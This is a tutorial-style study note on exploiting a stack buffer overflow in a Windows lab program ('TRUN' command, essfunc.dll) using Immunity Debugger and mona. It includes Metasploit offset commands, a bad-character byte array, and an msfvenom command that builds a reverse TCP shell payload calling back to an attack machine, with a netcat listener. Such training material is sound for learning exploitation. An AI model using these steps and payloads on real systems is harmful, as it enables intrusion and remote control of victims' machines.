 # Buffer Overflow

## Note

* the entry point with Immunity Debugger may not start at the actual start of the program, so you can search for strings from the program to find the entry point
* right click on the disassembly window and "Search For" -&gt; "All Referenced Text Strings" -&gt; Right Click

## First, Use a Python Script

* fuzz the command and find the byte value that it crashed the program with Immunity Debugger
* the python script will tell you when the app crashes and around what bytes

![](../.gitbook/assets/buffer-overflow-pic-0.png)

![](../.gitbook/assets/buffer-overflow-pic-1.png)

## Metasploit Module, Run Without Opening msfconsole

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000 
#(3000 is the Byte value where the program crashed)
```

## Run it Again with the Python Script, but with the New Fffset

* notice how the "TRUN" command now has "/.:/" behind it
* this is because of we found that value within Immunity Debugger when we crashed it the first time

![](../.gitbook/assets/buffer-overflow-pic-2.png)

## Check Immunity Bugger for “EIP” to be overwritten with a Value

* take that value and run this new command
* this finds the offset

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset -l 3000 -q 386F4337
#(this -q value is what value was left within the EIP)
```

* it will give us the exact offset byte value, this example will be 2003

## Overwrite the EIP

* rewrite the script
* “A” \* 2003 is to overwrite the buffer up until the EPI
* “B” \* 4 is to confirm we have the right spot by putting in different values
* EAX and EBP should be all A's
* EPI should be all B's
* remember it is HEX CODE!

![](../.gitbook/assets/buffer-overflow-pic-3.png)

![](../.gitbook/assets/buffer-overflow-pic-4.png)

## Finding Bad Characters

* What characters are good and bad for the shell code?

```text
badChars = (
"\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e\\x0f"
"\\x10\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f"
"\\x20\\x21\\x22\\x23\\x24\\x25\\x26\\x27\\x28\\x29\\x2a\\x2b\\x2c\\x2d\\x2e\\x2f"
"\\x30\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\\x3a\\x3b\\x3c\\x3d\\x3e\\x3f"
"\\x40\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a\\x4b\\x4c\\x4d\\x4e\\x4f"
"\\x50\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f"
"\\x60\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f"
"\\x70\\x71\\x72\\x73\\x74\\x75\\x76\\x77\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f"
"\\x80\\x81\\x82\\x83\\x84\\x85\\x86\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f"
"\\x90\\x91\\x92\\x93\\x94\\x95\\x96\\x97\\x98\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f"
"\\xa0\\xa1\\xa2\\xa3\\xa4\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\\xac\\xad\\xae\\xaf"
"\\xb0\\xb1\\xb2\\xb3\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\\xbf"
"\\xc0\\xc1\\xc2\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf"
"\\xd0\\xd1\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf"
"\\xe0\\xe1\\xe2\\xe3\\xe4\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef"
"\\xf0\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe\\xff"
)
```

### Edit the script

![](../.gitbook/assets/buffer-overflow-pic-5.png)

* run the script and crash the program again, which is okay
* in the “Registers” section of Immunity Debugger, right click ESP and click "Follow in Hex Dump"
* Look for what is out of place, in this case, B0 is the odd one
* it should go in order, 01 02 03, etc.
* NULL BYTE = 00, IT IS ALWAYS A BAD CHARACTER. EVEN IF YOU FIND NO BAD CHARACTERS 00 IS ALWAYS BAD

![](../.gitbook/assets/buffer-overflow-pic-6%20%281%29.png)

## Finding the Right Module

* This is when you are looking for a DLL, or something similar, that has no memory protections
* “Mona Modules” on Github is a tool that is used to find the right place
* paste it in “This PC, C Drive, Program Files \(x86\), Immunity Inc, Immunity Debugger, PyCommands Folder”
* Now, on the bottom of Immunity Debugger, you search “!mona modules”
* look for a path that is attached to the program you are breaking, and also has FALSE for all memory protections

![](../.gitbook/assets/buffer-overflow-pic-7.png)

### Now we go to Kali Linux, to get the Jump Code

```bash
“locate nasm_shell”
“/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb”
```

* in the shell, type “JMP ESP”
* copy the results, which in this case is FFE4

### Go Back to Immunity Debugger and in the Bottom Search

```bash
!mona find -s ”\xff\xe4" -m essfunc.dll #<- essfunc.dll is the dll it found to be vulnerable
```

![](../.gitbook/assets/buffer-overflow-pic-8.png)

### It Displays Results, and Start at the Top and Go Down the List with the Following Steps

* go to Kali Linux and edit the Python script again
* keep in mind the Return Address

![](../.gitbook/assets/buffer-overflow-pic-9.png)

go back to Immunity Debugger, and click on the Blue Arrow next to the Red Arrows and type in the Return Address, then set a break point there \(F2 for Windows\)

* click play
* Run the new Python script, and notice how Immunity Bugger has paused. Congrats we control the EIP!

### Now use msfvenom to create a shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<attack machine IP> LPORT=4444 EXITFUNC=thread -f c -a x86 -b ”\x00" #(f is filetype, a is architecture, b is bad characters and where you would put them)
```

* once executed, copy the “unsigned char buf\[\]” values without the semi-colon
* now, once again edit the Python script
* add a variable “overflow" to the top and paste in the values surrounded by \(\) parenthesis
* add padding and “overflow” to “shellcode”
* 32 is the padding value which can be lowered if working with small sizes \(padding makes the buffer overflow work better\)

![](../.gitbook/assets/buffer-overflow-pic-10.png)

* set up a Netcat listener with the same ports you put within “LPORT” with your shell code
* make sure the Terminal App is running, then run the Python script

## Resources

* [The Cyber Mentor's](https://www.youtube.com/playlist?list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G) buffer overflow playlist
* [https://www.youtube.com/watch?v=OOkU7to0Ty4&ab\_channel=JesseK](https://www.youtube.com/watch?v=OOkU7to0Ty4&ab_channel=JesseK)
* [https://www.youtube.com/watch?v=GnUcfbBr7d0&t=3s&ab\_channel=AnonVenus](https://www.youtube.com/watch?v=GnUcfbBr7d0&t=3s&ab_channel=AnonVenus)

